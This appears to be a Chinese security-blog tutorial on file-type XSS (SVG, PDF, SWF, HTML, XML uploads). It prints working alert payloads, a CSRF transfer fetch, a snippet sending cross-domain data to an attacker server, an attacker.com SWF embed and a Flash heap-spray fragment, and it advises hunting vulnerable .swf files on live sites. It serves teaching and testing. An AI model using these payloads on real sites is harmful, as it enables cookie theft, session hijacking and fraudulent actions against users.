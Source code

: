 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg5NjUxOTM3Mg==&mid=2247489666&idx=1&sn=001e09686a0787bdd7f588a9614702b6

#  XSS之文件类型触发型XSS  
原创 一个努力的学渣  一个努力的学渣   2025-07-06 15:09  
  
免责声明  
  
本文只做学术研究使用，不可对真实未授权网站使用，如若非法他用，与平台和本文作者无关，需自行负责！  
## SVG型XSS  
- SVG（Scalable Vector Graphics，可缩放矢量图形）是一种基于XML的矢量图形格式，广泛用于网页设计和数据可视化。由于SVG文件支持内嵌JavaScript代码，因此如果处理不当，可能会引发XSS（跨站脚本）攻击  
  
- 攻击原理：  
SVG文件可以通过 <script> 标签直接嵌入JavaScript代码。当浏览器加载SVG文件时，这些代码可能会被执行，从而导致XSS攻击  
（  
SVG（可缩放矢量图形）文件本质上是XML文档）  
  
- 触发方式：  
  
- 直接加载SVG文件：如果SVG文件被直接加载到浏览器中（例如通过 <img> 标签或直接在浏览器中打开SVG文件），嵌入的脚本可能会被执行  
  
- 通过HTML标签加载：如果SVG文件被嵌入到HTML页面中（例如通过 <object> 或 <embed> 标签），嵌入的脚本也可能会被执行  
  
- 利用场景：  
  
- 用户头像上传：  
  
- 允许上传SVG作为头像  
  
- 当其他用户查看资料时执行恶意脚本  
  
- 文件共享服务：  
  
- 上传恶意SVG文件  
  
- 当用户预览文件时触发攻击  
  
- 图标/图标库：  
  
- 注入恶意代码到SVG图标中  
  
- 当网站使用该图标时触发攻击  
  
- CMS模板：  
  
- 在SVG模板中注入恶意代码  
  
- 影响所有使用该模板的页面  
  

```
**************直接脚本注入**************
<svg xmlns=&#34;http://www.w3.org/2000/svg&#34; version=&#34;1.1&#34;>
<circle cx=&#34;100&#34; cy=&#34;50&#34; r=&#34;40&#34; stroke=&#34;black&#34; stroke-width=&#34;2&#34; fill=&#34;red&#34;/>
<script>alert(1)</script>
</svg>
**************直接脚本注入**************
**************事件处理程序触发**************
<svg xmlns=&#34;http://www.w3.org/2000/svg&#34; onload=&#34;alert(document.domain)&#34;>
  <rect width=&#34;100&#34; height=&#34;100&#34; fill=&#34;blue&#34;/>
</svg>
**************外部资源引用**************
<svg xmlns=&#34;http://www.w3.org/2000/svg&#34;>
  <image 
    href=&#34;non-existent-image.jpg&#34; 
    onerror=&#34;alert('XSS via onerror!')&#34;
    width=&#34;100%&#34;
    height=&#34;100%&#34;
  />
</svg>
**************外部资源引用**************
```

  
实操：  
  
比如目标网站允许上传svg格式文件，之后制作一个xss.svg格式的文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaFQRjeGicnkOFfPh8NBib3dMCfF55UqiaR1rfOMepvbaIbOJNvu5RGarsg/640?wx_fmt=png&from=appmsg "")  
  
把xss.svg格式的文件上传到目标系统中，打开后弹窗  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ia9mH0LqfZs7rhZUtpOjKReHRGqCvEksTMhK3oDW03eUxTmcicvJaJFGw/640?wx_fmt=png&from=appmsg "")  
## PDF型XSS  
- PDF型XSS是一种利用PDF文档内嵌JavaScript功能在受害者浏览器环境中执行恶意脚本的攻击  
  
- 触发场景：  
  
- **直接渲染漏洞**  
：浏览器内置PDF解析器（如Chrome）未过滤脚本标签，导致嵌入的  
<script>  
被执行  
  
- **外部资源引用**  
：通过  
/EmbeddedFile  
引用外部恶意JS，或篡改PDF内嵌资源（如字体、图片）  
  
- **表单与注释字段注入**  
：PDF表单字段（如表单提交按钮）可绑定恶意JS事件  
  
- 利用场景：  
  
- 文件上传+在线预览场景（最常见）：  
攻击者将恶意PDF上传至支持在线预览功能的网站（如论坛、文档共享平台、企业内网系统）→ 用户访问该PDF预览页 → 内嵌JS在浏览器PDF渲染环境中执行  
  
- 技术依赖：  
  
- 网站使用浏览器内置渲染器（如Chrome PDFium、PDF.js未禁用JS）  
  
- PDF包含app.alert()等Adobe JS API调用（例如通过PyPDF2注入output_pdf.add_js("app.alert('XSS');")）  
  
- 风险后果：  
窃取当前域名Cookie、劫持会话、钓鱼跳转（如伪造登录页）  
  
- PDF嵌入网页攻击：  
恶意PDF通过<object>或<iframe>嵌入第三方网页（例如：<object data="malicious.pdf" type="application/pdf">）→ 用户访问该网页 → PDF内JS以宿主域名权限执行  
  
- 技术依赖：  
  
- 网站允许用户控制嵌入内容（如自定义页面模块）  
  
- 未对PDF来源做同源策略隔离  
  
- 风险后果：  
绕过CSP限制，直接操作宿主页面DOM（例如篡改页面内容、窃取表单数据）  
  
- 钓鱼邮件+附件预览：  
攻击者发送含恶意PDF附件的钓鱼邮件 → 用户使用邮件客户端（如Outlook Web）或Web邮箱的“附件预览”功能打开PDF → JS自动执行  
  
- 技术依赖：  
  
- 邮件系统启用PDF预览且使用易受攻击的渲染引擎（如旧版Adobe插件）  
  
- 用户未下载至本地用独立阅读器打开  
  
- 风险后果：  
窃取邮箱凭证、传播横向钓鱼、触发后续漏洞利用链（如结合RCE漏洞）  
  
- 云存储/网盘服务漏洞：  
用户将恶意PDF上传至云盘（如Google Drive、企业私有云）→ 使用服务的“在线预览”功能 → JS在云服务域名下执行  
  
- 技术依赖：  
  
- 云服务未清洗PDF中的JS动作（如未移除/OpenAction、/AA字典）  
  
- 预览服务使用浏览器内核渲染  
  
- 风险后果：  
以云服务用户身份发起API请求（如读取私有文件列表）、窃取OAuth令牌  
  
- 结合CSRF的复合攻击：  
恶意PDF中嵌入JS发起跨域请求（如fetch('https://bank.com/transfer?to=attacker&amount=10000')） → 用户预览PDF时自动触发转账操作  
  
- 技术依赖：  
  
- 目标接口未校验CSRF Token   
  
- 用户会话处于登录状态  
  
- 风险后果：  
模拟用户执行敏感操作（转账、改密、添加管理员），造成业务逻辑型漏洞  
  
实操：  
  
这里使用的是  
迅捷  
PDF  
编辑器试用版  
  
1  
、创建  
PDF  
，加入动作  
JS  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaickJgo2sFvE7k9ApFABH3Jiam4QkFBibujrMQm6XT556ibSXRB6fSGvPJA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iamgab05nn0p5jUCnuNvVibmVFj9jpTsNCOGDzo2icFgoDNLibDbXLXXf6g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iadfwuEjticfMAfSoiboRkOGsLpxYQTpVv55kG1R1fZTFt9nnXzKVQTG7g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iatSs1b6IZoYxOJNum4MYXX7C7eiaZ3HUh1cEz7z33c7PcYIqj85kJiaGQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaT4MZySDB9kIfnSCyUJSYWNpNt5yibZcAOWyryPz0mvUdBNG4KOty79A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaf5CaeX7dREEicLRKI4ldCxQadE9Nmw7UWLI8JpNibSZ5xpJWRO9cia7qw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ia9LWicibdvjnCM2K85Osa85ZzrYMMWeNfQwfQWk7Pp4HClNVwg2b4eiajQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaaCMOmsLL1FFVaibLY4HWb862pqmaWFq71FzibbWtfDmpXBO1rthkGd4w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iadaLRHzT6eTx1JQfTRMhwm6qo12IibJy21bXewtJt2mynqCuia4y6YajQ/640?wx_fmt=png&from=appmsg "")  
  
存在限制：  
- PDF工具直接打开：可能不会执行Javascript代码(部分PDF工具可能会执行Javascript代码，如Adobe Acrobat软件就会执行Javascript代码)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iacarzTaDOFJaCUXH5TCicqebnPEAC9OWBldibxmtnpsqmc727xIDGVutQ/640?wx_fmt=png&from=appmsg "")  
- 浏览器直接打开：会执行Javascript代码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iacn3DLLH4BBkreOqQAKM0f1X5vaksRzIJmS0cw68ibogv8a6KZ189vdQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ia8IPJAa9HOgWMUwVozqODnTy8fNPeP3npMoEu7WmwjNYxhNSmO4plAg/640?wx_fmt=png&from=appmsg "")  
  
2  
、通过文件上传获取直链（就是把文件上传到目标服务器）  
  
3  
、直链地址访问后被触发  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iagVfGY4ycPzrBeUpBPMEM8rusCQnLK1mACbCPtQY7QcgseAXTwjYAEw/640?wx_fmt=png&from=appmsg "")  
## SWF型XSS  
- SWF型XSS（Flash XSS）是一种利用Adobe Flash文件（.swf）实现跨站脚本攻击的安全漏洞，攻击者通过注入恶意脚本操控浏览器行为  
  
  
- 常见的可触发xss的危险函数：  
  
- 高风险函数（直接执行JS）：  
  
- ExternalInterface.call()：  
  
- 功能：ActionScript与JavaScript通信的核心接口，用于调用网页中的JS函数  
  
- 危险性：  
若第一个参数（JS函数名）或参数值未过滤，攻击者可注入任意JS代码（如ExternalInterface.call("eval", "alert(document.cookie)")）  
  
- getURL()：  
  
- 功能：跳转至指定URL或执行JS伪协议（如javascript:）  
  
- 危险性：  
直接执行javascript:协议内容（如getURL("javascript:alert(document.domain)")），绕过同源策略  
  
- navigateToURL()：  
  
- 功能：  
通过URLRequest对象实现页面跳转或JS执行  
  
- 危险性：  
类似getURL，但支持更复杂的请求。若未校验URL协议，可执行恶意JS  
  
- 中风险函数（间接触发XSS）：  
  
- loadVariables()：  
  
- 功能：从外部源（如URL参数、flashvars）加载数据并解析为ActionScript变量  
  
- 危险性：  
若输入未过滤，攻击者通过flashvars注入恶意字符串（如param=<img src=x onerror=alert(1)>），后续拼接至HTML或JS时触发XSS  
  
- htmlText（TextField属性）：  
  
- 功能：渲染HTML格式文本到Flash文本框  
  
- 危险性：  
  
若内容包含未编码的HTML标签或JS事件（如<a href="javascript:alert(1)">click</a>），解析时执行恶意脚本  
  
  
- ASfunction:伪协议：  
  
- 功能：  
在Flash文本中触发ActionScript函数  
  
- 危险性：结合htmlText可构造点击事件执行危险操作（如<a href="ASfunction:alert,1">XSS</a>）  
  
- 底层函数（组合利用触发XSS）：  
  
- Loader.load()：  
  
- 功能：动态加载子SWF模块  
  
- 危险性：加载恶意子SWF绕过主文件安全校验，子模块调用ExternalInterface.call()触发XSS  
  
- URLLoader.load()：  
  
- 功能：加载外部数据（如XML、文本）  
  
- 危险性：配合宽松crossdomain.xml（如<allow-access-from domain="*"/>），窃取跨域数据并通过ExternalInterface外传  
  
- SharedObject.getLocal()：  
  
- 功能：读写本地共享对象（LSO，类似Cookie）  
  
- 危险性：存储污染数据（如恶意JS字符串），后续被读取并注入DOM触发XSS  
  
- loadMovie()：  
  
- 功能：在 ActionScript 中，loadMovie 函数用于加载一个外部 SWF 文件到当前 Flash 文件中  
  
- 危险性：如果攻击者可以控制加载的 SWF 文件路径，他们可以上传或引用包含恶意代码的 SWF 文件，从而在目标页面中执行恶意脚本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iafWteaqQVyVzqVY2fTqurGEniaNs0fAV2iac6Wq8j4LiagichUp37qVMmGQ/640?wx_fmt=png&from=appmsg "")  
- 利用场景：  
  
- 用户上传+在线播放场景（最常见）：  
  
- 攻击路径：  
  
- 论坛/博客平台允许用户上传SWF文件 → 攻击者上传含ExternalInterface.call("eval", "恶意JS")的SWF  
  
- 其他用户访问该页面自动触发XSS  
  
- 技术依赖：  
  

```
// 恶意SWF代码片段
if (ExternalInterface.available) {
  ExternalInterface.call(&#34;eval&#34;, &#34;alert(document.cookie)&#34;);
}
```

- 钓鱼邮件附件攻击：  
  
- 攻击路径：  
攻击者发送钓鱼邮件携带恶意SWF附件 → 用户使用邮件客户端预览功能打开 → 触发XSS  
  
- 技术特点：  
  
- 利用Outlook Web等客户端预览机制执行SWF内嵌脚本  
  
- 结合社会工程（如伪装为“订单确认.swf”）  
  
- 危害：  
窃取邮箱凭证、获取用户通讯录  
  
- 恶意广告植入（Malvertising）：  
  
- 攻击路径：  
  
- 攻击者购买广告位注入恶意SWF代码  
  

```
<object data=&#34;//attacker.com/ads/banner.swf?param=javascript:alert(1)&#34;>  
```

- 用户访问含该广告的页面 → SWF解析param参数触发XSS  
  
- 技术依赖：广告平台未对SWF的flashvars参数做安全审核  
  
- 结合CSRF的复合攻击：  
  
- 攻击路径：  
  
- 恶意SWF通过URLLoader读取宽松跨域策略的接口数据  
  
- 使用ExternalInterface将窃取的数据外传  
  

```
// 跨域窃取数据示例
var loader:URLLoader = new URLLoader();
loader.load(new URLRequest(&#34;https://bank.com/userinfo&#34;));
loader.addEventListener(Event.COMPLETE, (e:Event) => {
  var data:String = e.target.data;
  ExternalInterface.call(&#34;postToAttacker&#34;, data); // 外传至攻击者服务器
});
```

- 依赖条件：  
目标站点存在错误crossdomain.xml配置  
  

```
<cross-domain-policy>
  <allow-access-from domain=&#34;*&#34;/> <!-- 致命错误! -->
</cross-domain-policy>
```

- 企业内网渗透：  
  
- 攻击路径：  
  
- 攻击者构造SWF文件利用内网系统信任关系  
  
- 通过SharedObject.getLocal()读取本地缓存敏感数据  
  
- 注入恶意JS扫描内网资源  
  

```
// 内网扫描示例
ExternalInterface.call(
  &#34;fetch('http://192.168.1.1/admin', {credentials: 'include'})&#34;
  .then(res => res.text())
  .then(data => { /* 外传数据 */ })
);
```

- 典型目标：  
OA系统、旧版ERP等未更新Flash策略的内部应用  
  
- 浏览器插件漏洞利用：  
  
- 攻击路径：  
  
- 利用Flash插件漏洞（如CVE-2015-5119）绕过沙箱  
  
- 执行系统级恶意代码  
  

```
// 经典漏洞利用链（Heap Spray）
var shellcode:ByteArray = new ByteArray();
shellcode.writeBytes(生成恶意字节码);
var exploit:Vector.<uint> = new Vector.<uint>(0x1000);
for (var i:int = 0; i < exploit.length; i++) {
  exploit[i] = 0x0c0c0c0c; // 堆喷占位
}
```

- 影响范围：  
未更新补丁的Adobe Flash Player < 18.0.0.324  
  
安装所需工具：  
  
安装Adobe Flash Professional CS6：  
  
Adobe Flash Professional CS6 下载：  
http://www.downza.cn/soft/27510.html  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iarSfoVyB58Bknq0ibPR2AUDoGEMVxw2aXhe4d587apCPo2D4sQyeBI5w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaLcIMG9VQP86JDqpaRp8gWv4YfpqMbGuJ7mlwcTI2icKNS3ibWgMxLlIg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ialkGEU5nBCrIR2rXbASUzvYoPkicCTNksT0xL3ONreIG29YVHic6czP3Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaiam3B9IAVGrofxDTwGLjuLEvYwdJgiaicTPGAicNNfEPDLZnbeSJicukHiaQ/640?wx_fmt=png&from=appmsg "")  
  
以管理员身份运行就可以正常打开了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iahYOOXvQ18mN5A7Xnek0CGhaiaV7j2nV4kTICzWuXPSwXy0CJLgolWicg/640?wx_fmt=png&from=appmsg "")  
  
制作swf  
-  
xss文件：  
  
1  
、新建swf文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaDfYW64q6PwQQbC9wS2M0l1vWzP1D883BcrYFqDkdbrGQuuVQamyA2g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaKHl8AwIsEFQMYbl7elkrMXOJMX1uWw76BSIyqHbgnIze5hIA7t6rPA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ianMYHtSiaibowaalOtQDciaJJMwEuP1KGNV0WeicyMX7TbggprTOQicLKeibQ/640?wx_fmt=png&from=appmsg "")  
  
2  
、  
F9  
进入代码区域  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaT2fa6KfNU71TZrzEBfkjQHECeA2sVsRqylLmpDABvibViccpxsqjPD9Q/640?wx_fmt=png&from=appmsg "")  
  
3  
、属性发布设置解析  

```
//取m参数
var m=_root.m;
//调用html中Javascript中的m参数值
flash.external.ExternalInterface.call(m);
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iabCvnNlibyu2mw8Xq7cr2YL5LsL06u4wkePkCxmXfX7BtmaFhialBaFiag/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaMppoFbibzOaib3gSH5D0A5CnKibbj5GsB1jRU7wUPQtVYfXxSkwWJNFEA/640?wx_fmt=png&from=appmsg "")  
  
.swf运行需要安装flag中心工具：  
https://www.flash.cn/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ia8XAmCrEPeTAiaFpbJBicd08df8z7jVmb5BoHGQo2mk51ULFBpiayoUudw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iazCiaHqjJBibRb6eOu1bR4yEc3xcXfCFTIFCwZ4EGO1hDpsLZ2ia4OEarQ/640?wx_fmt=png&from=appmsg "")  
  
触发：  
?  
m  
=  
alert  
(  
/xss/  
)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaC4qjYmibkLI82VswHwCdA2mC9ib1ia5OrzFKBreJfaZ0p2bvSG8tfT4WA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iambmCK5zYBFrYd857mBD4gQCA1sPcuoMYHmfgFf1EyHTTibjx1CSvngg/640?wx_fmt=png&from=appmsg "")  
  
  
swf反编译工具：  
  
JPEXS  
 Free Flash Decompiler  
  
下载地址：  
https://github.com/jindrapetrik/jpexs-decompiler  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaDB98jDhpfLmva7B1QYibKPBgPtU9dL4XSk28wiaFI8SC0ibQRlfTUI6Ng/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaO91O47ibPcYJC5pU1TmcWaeT52CuTNMNZyxeNHC3jsf41XS3SMYTdYg/640?wx_fmt=png&from=appmsg "")  
  
  
如何寻找.swf漏洞？（  
比如4399小游戏，肯定有  
.swf  
文件  
）  
- 比如使用搜索引擎搜索phpwind（phpwind只是某一个模板，只要是存在.swf文件，都可以去尝试下载-->反编译-->分析代码-->利用）  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaUlIuchO8P37KGZPbdAQ3kLbYUPcZvraJBFPs8UZllKW5vLPsDwQWlg/640?wx_fmt=png&from=appmsg "")  
- 之后尝试输入/images/uploader.swf  
- /images/uploader.swf：爬虫、网站扫描、加载资源里面flash播放时自动抓取的  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RwWtAvWe59qsbFGg8MyDWPe51H90icCicic9Md6etWrrJfTD4FhGCE4ME5uaVY4VGvZLicNNfRBtHNuvQ/640?wx_fmt=png&from=appmsg "")  
  
如何测试swf文件xss安全性：  
- 反编译swf文件  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ia9KwmVmiaEQgpAXqZib0aEvb2uoZObpyCGuosxFziaiabXwNVr1bcerqdUg/640?wx_fmt=png&from=appmsg "")  
- 查找触发危险函数  
- 常见的可触发xss的危险函数有：getURL，navigateToURL，ExternalInterface  
.  
call，htmlText，loadMovie等等  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaNsVnFrLYEBUicymEw3MmKsA6Hh3wRu7D9of3OjcKDCFTrZFwD1UiajoA/640?wx_fmt=png&from=appmsg "")  
- 找可控参数访问触发  
- jsobject=alert(1)  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iapt7y8Ke4A6ukqNEuCYm5GkmfibVzGq7R70xLk9xQesDlyo6NnI2RNXw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RwWtAvWe59qsbFGg8MyDWPe6g9XJDiajRpb1kVN44AqdneRTymtFfQyu8g9yXMHTrIoZPdp4kOYMKg/640?wx_fmt=png&from=appmsg "")  
  
总结：  
- 上传swf文件可以做xss漏洞  
- 找到目标上存在的swf进行反编译后找xss漏洞  
## HTML型XSS  
- HTML型XSS（跨站脚本攻击）是最常见且危险的Web安全漏洞之一，攻击者通过注入恶意脚本到HTML文档中，在用户浏览器执行这些脚本，从而窃取信息或执行未授权操作  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ia1rgmTpq6c2VVCJwDgicj9iaWWU4HaNK4QP5TePHia7F2Y3AVZhb2AOrxg/640?wx_fmt=png&from=appmsg "")  
  
  
简单的说：就是单纯在  
HTML  
代码中写  
XSS  
代码即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaC1peccUMAEABvx3FXyfh8VOwLMoWDyVpEs88he4PnIg6wdnSNgGK2g/640?wx_fmt=png&from=appmsg "")  
## 其他：XML格式等  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iarOhjXq5XgnhQkUR4xNp1rRaAGHOItCKEgntxsxuSbzz9DktMcbUFGQ/640?wx_fmt=png&from=appmsg "")  
- XML型XSS是一种特殊类型的跨站脚本攻击，利用XML文档解析特性执行恶意脚本。尽管不如HTML型XSS常见，但在API、Web服务和数据驱动应用中危害严重  
  

```
**************利用XHTML命名空间**************
<?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?>
<xhtml:html xmlns:xhtml=&#34;http://www.w3.org/1999/xhtml&#34;>
    <xhtml:script>
        alert(&#34;xss&#34;);
    </xhtml:script>
</xhtml:html>
**************利用XHTML命名空间**************
**************利用script标签的namespaceuri**************
<html>
<head></head>
<body>
    <prefix:script xmlns:prefix=&#34;http://www.w3.org/1999/xhtml&#34;>
        alert(&#34;xss&#34;);
    </prefix:script>
</body>
</html>
**************利用script标签的namespaceuri**************
**************利用svg文件**************
<?xml version=&#34;1.0&#34; standalone=&#34;no&#34;?>
<!DOCTYPE svg PUBLIC &#34;-//W3C//DTD SVG 1.1//EN&#34; &#34;http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd&#34;>
<svg version=&#34;1.1&#34; baseprofile=&#34;full&#34; xmlns=&#34;http://www.w3.org/2000/svg&#34;>
    <polygon id=&#34;triangle&#34; points=&#34;0,0 0,50 50,0&#34; fill=&#34;#009900&#34; stroke=&#34;#004400&#34;/>
    <script type=&#34;text/javascript&#34;>
        alert(&#34;xss&#34;);
    </script>
</svg>
**************利用svg文件**************
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaXFCFakRBvsCj8uO6ViaVn6VyyLdyvkibjCPgW9iaoEiaVBaa17nmibYDG6Q/640?wx_fmt=png&from=appmsg "")  
  
  
总结  
- 文件上传类XSS挖掘：从安全文件上传到  
XSS  
的转换（红队玩法还可以配合钓鱼）  
  
- 当支持HTML文件上传时，优先使用HTML型XSS，我们不能本末倒置，学习了高级技巧，却忘记了最基础的东西  
  
- 利用文件上传获取文件访问地址，访问触发（浏览器格式解析问题会导致失效）  
  
- 文件上传XSS的核心在于信任链的断裂。最有效的攻击往往发生在安全措施的"间隙"中：  
  
- 当安全团队专注于阻止HTML上传时，利用SVG的"合法图片"身份突破  
  
- 当防御者关注存储安全时，利用解析器特性触发漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaicVFSxib71mR4yeYAMNA68WgMrdP0zoo7AalBkPI7wAnIgjSJ7On6RUA/640?wx_fmt=png&from=appmsg "")  
  
